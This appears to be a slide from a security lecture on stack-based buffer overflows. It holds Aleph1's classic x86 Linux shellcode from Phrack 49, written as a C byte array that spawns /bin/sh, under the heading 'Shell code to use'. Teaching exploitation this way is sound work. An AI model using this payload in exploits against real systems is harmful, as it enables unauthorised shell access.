

# Shell code to use
/*
Aleph1's Linux shellcode
from "Smashing the stack for fun and profit",
Phrack 49, vol 7
*/

char shellcode[] =
   "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
   "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
   "\x80\xe8\xdc\xff\xff\xff/bin/sh";
30